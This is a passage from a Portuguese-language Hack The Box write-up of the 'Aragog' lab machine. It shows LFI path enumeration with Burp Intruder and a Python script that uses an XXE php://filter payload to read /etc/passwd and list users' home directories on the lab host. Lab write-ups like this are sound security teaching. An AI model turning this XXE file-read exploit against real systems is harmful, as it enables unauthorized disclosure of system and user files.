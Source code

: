 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_lfi.png)

> https://github.com/D35m0nd142/LFISuite

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_lfi1.png)

Dando uma vasculhada nesse github encontramos os caminhos que queremos que sejam testados

> https://github.com/D35m0nd142/LFISuite/blob/master/pathtotest.txt

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_lfi2.png)

Passamos pra nossa Kali e damos uma arrumada nele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_lfi3.png)

Tiramos aqui todos que não começam com /

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_lfi4.png)

Agora executamos no *BurpSuite* dentro do *Intruder*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_burp4.png)

Setamos a wordlist criada

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_burp5.png)

Executamos

Bom, ai está bem claro, os que tem tamanho diferente de 213 possivelmente existem

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_burp6.png)

### Script para facilitar essa enumeração

Aqui ele irá pegar todos os usuários do passwd que possuem shell válido, vai entrar um por um e listar os arquivos que estão no arquivos `files.txt` que vamos criar agora

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_file.png)

```
import requests                                                                                                                                                              
from base64 import b64decode                                                                                                                                                
                                                                                                                                                      
def GetFile(fname):                                                                                                                                           
    payload = '<!--?xml version="1.0" ?--><!DOCTYPE replace [<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=' + fname + '">] <details><subnet_mask>&file;</subnet_mask><test></test></details>'                                                 
    resp = requests.post('http://10.10.10.78/hosts.php', data=payload)
    fcontent = (resp.text).split(" ")[6]
    fcontent = b64decode(fcontent)
    return fcontent

def GetHomeDir():
        homedir = []
        passwd = GetFile("/etc/passwd")
        lines = iter(passwd.splitlines())
        for line in lines:
            if line.endswith("sh"):
                line = line.split(":")[5]
                homedir.append(line)
        return homedir

```